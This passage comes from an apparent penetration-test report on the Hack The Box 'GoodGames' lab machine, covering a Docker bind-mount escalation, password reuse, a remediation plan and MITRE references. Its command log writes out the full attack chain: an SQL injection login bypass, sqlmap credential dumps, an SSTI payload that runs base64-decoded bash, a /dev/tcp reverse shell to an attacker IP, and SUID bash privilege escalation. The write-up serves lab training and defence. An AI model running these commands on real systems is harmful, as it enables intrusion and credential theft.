| **References** | [Docker Docs: Bind Mounts](https://docs.docker.com/storage/bind-mounts/) · [Docker Docs: Isolate Containers with User Namespaces](https://docs.docker.com/engine/security/userns-remap/) |

**Evidence:**
```
cp /bin/bash .
exit

chown root:root bash
chmod 4755 bash

ls -la bash
-rwsr-xr-x 1 root root 1168776 Sep 8 01:12 bash
```





---

### 5. Password Reuse Across Accounts — Medium

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-521: Weak Password Requirements (Password Reuse) |
| **CVSS 3.1 Score** | 6.5 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N` |
| **Description (Incl. Root Cause)** | The password recovered from cracking the web application admin's MD5 hash was reused as the SSH password for the system user `augustus` on the Docker container instance. This indicates a lack of password uniqueness policy across services with different trust boundaries (web application vs. system-level SSH access). |
| **Security Impact** | Compromise of a single low-sensitivity credential (a web login) directly enabled lateral movement to a separate system-level account via SSH, significantly accelerating the attack chain and demonstrating how a single weak link can cascade into broader compromise. |
| **Affected Host(s)** | Docker container instance (`172.19.0.1:22`) — user `augustus` |
| **Remediation** | - Enforce unique credentials per service/system; prohibit reuse between web application and OS-level accounts<br>- Implement SSH key-based authentication instead of passwords where feasible<br>- Deploy credential/password reuse monitoring or a password manager policy for privileged accounts |
| **References** | [NIST SP 800-63B: Digital Identity Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html) |

**Evidence:**
```
ssh augustus@172.19.0.1
Password: [REDACTED — matches cracked admin hash from Finding 3]
→ Authentication successful
```



---

## Remediation Summary

### Short Term

- **Finding #1 (SQL Injection)** – Convert the login query to a parameterized statement / prepared statement as an immediate patch; this is a small code change that closes the authentication bypass without requiring broader refactoring.
- **Finding #5 (Password Reuse)** – Force an immediate password reset for `augustus` and any other accounts sharing credentials across services; issue unique passwords per system.
- **Finding #4 (Insecure Docker Bind Mount)** – Add the `nosuid` flag to the existing bind mount as an immediate compensating control, preventing SUID binaries planted on the shared path from being honored.

### Medium Term

- **Finding #2 (SSTI)** – Refactor the profile "Full Name" rendering to treat user input strictly as plain-text data, or migrate to a sandboxed/logic-less templating mode; requires touching the template rendering logic and testing across the application.
- **Finding #3 (Weak Password Hashing)** – Migrate the credential store to a salted, slow hashing algorithm (bcrypt/Argon2/scrypt) and force a reset for all existing users once migration is complete; requires a database migration and coordinated rollout.
- **Finding #4 (Insecure Docker Bind Mount)** – Reconfigure the container to use Docker user namespace remapping so container root does not map to host root, and restrict the mount to read-only where write access isn't required; involves reworking the container's deployment configuration.

### Long Term

- Establish a secure code review / SAST process for the web application to catch injection-class vulnerabilities (SQLi, SSTI) before they reach production.
- Implement a periodic vulnerability assessment and penetration testing cadence (e.g., annually or after major releases) to catch configuration drift and new exploitable vectors.
- Adopt an organization-wide credential management policy (unique passwords per system, password manager or SSO enforcement, SSH key-based auth) to prevent password reuse from cascading into lateral movement.
- Build a container security baseline/hardening checklist (no unnecessary bind mounts, user namespace remapping by default, `nosuid`/`noexec` on shared volumes) to apply consistently across all Docker deployments, not just this host.
- Introduce a patch and dependency management process to ensure underlying frameworks (e.g., the Python 3.9.2 web server identified in recon) are kept current, reducing exposure to known CVEs over time.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1:**
Exploited a SQL Injection vulnerability in the application's login functionality to bypass authentication controls and gain unauthorized access to the web application.

**Skill/Technique 2:**
Exploited a Server-Side Template Injection (SSTI) vulnerability to achieve remote code execution on the internal administration system.

**Skill/Technique 3:**
Exploited a misconfigured Docker bind mount to escalate privileges and obtain a root shell on the target host.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ------------------------------------------------------------------------------------------------ |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.               |
| **Low**      | Exploitation causes minimal impact to operations.                                               |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                          |

### B. Exploited Hosts

| Host                     | Method          | Notes              |
| ------------------------ | --------------- | ------------------- |
| `10.129.96.71`           | SQL Injection   | Initial access      |
| `internal-administration.goodgames.htb` | SSTI | Initial foothold    |
| `172.19.0.1`             | SSH             | Lateral movement    |

### C. Compromised Users / Credentials

| Username   | Method              | Notes                             |
| ---------- | -------------------- | ----------------------------------- |
| `admin`    | SQL Injection        | Administrator access to website   |
| `augustus` | Docker bind mount    | Used to gain root shell           |

### D. Command Reference Log

A consolidated list of every command run during the assessment, for quick reference/reproducibility:

```
sudo nmap 10.129.96.71
echo "10.129.96.71 goodgames.htb" | sudo tee -a /etc/hosts
admin' or 1=1 -- -
sqlmap -r goodgames.req
sqlmap -r goodgames.req --dbs
sqlmap -r goodgames.req -D main --tables
sqlmap -r goodgames.req -D main -T user --dump
sudo sed -i 's/goodgames.htb/goodgames.htb internal-administration.goodgames.htb/g' /etc/hosts
{{7*7}}
echo -ne 'bash -i >& /dev/tcp/10.10.14.111/1234 0>&1' | base64
nc -lvnp 1234
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}<payload>${IFS}|base64${IFS}-d|bash').read()}}
ls /home
cd /home/augustus
cat user.txt
ls -la
ifconfig
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
script /dev/null bash
ssh augustus@172.19.0.1
cp /bin/bash .
exit
chown root:root bash
chmod 4755 bash
ssh augustus@172.19.0.1
ls -la bash
./bash -p
cd root
cat root.txt
```

### E. References

- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) (SQLi → Authentication Bypass; SSTI → RCE)
- [MITRE ATT&CK T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) (Credential access via sqlmap dump)
- [MITRE ATT&CK T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/) (Hash cracking)
- [MITRE ATT&CK T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/) (Login with cracked credentials; password reuse)
- [MITRE ATT&CK T1595.002 — Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/) (Subdomain/vhost discovery)
- [MITRE ATT&CK T1082 — System Information Discovery](https://attack.mitre.org/techniques/T1082/) (Discovery of Docker mount/UID)
- [MITRE ATT&CK T1021.004 — Remote Services: SSH](https://attack.mitre.org/techniques/T1021/004/) (SSH into container with reused creds)
- [MITRE ATT&CK T1548.001 — Abuse Elevation Control Mechanism: Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/) (SUID binary privilege escalation)
- [MITRE ATT&CK T1611 — Escape to Host](https://attack.mitre.org/techniques/T1611/) (Escape via shared/misconfigured mount)
- [Official Hack The Box GoodGames Machine Page](https://app.hackthebox.com/machines/GoodGames)

> **Note on CVEs:** No specific CVEs apply to this assessment. All identified findings are custom application logic flaws (SQLi, SSTI in bespoke code) or environment misconfigurations (weak hashing choice, password reuse, insecure Docker mount) rather than vulnerabilities in a specific, versioned third-party product — CVEs are not issued for deployment/configuration choices.
